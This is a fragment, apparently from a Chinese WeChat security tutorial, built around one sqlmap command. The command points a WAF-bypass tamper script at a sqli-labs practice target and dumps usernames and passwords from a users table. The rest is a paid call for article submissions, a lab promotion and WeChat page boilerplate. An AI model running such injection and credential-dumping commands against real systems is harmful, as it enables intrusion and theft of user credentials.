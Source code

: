     
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent -D security -T users -C username,password --dump --stop 3

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180239.png)  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180241.png)  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180246.png)

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全、热点安全研究分析等安全相关

通过审核并发布能收获200-800不等的稿酬

  

[更多详情介绍，点我查看](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180247.png)![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180248.png)免费靶场实操，戳“阅读原文“

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

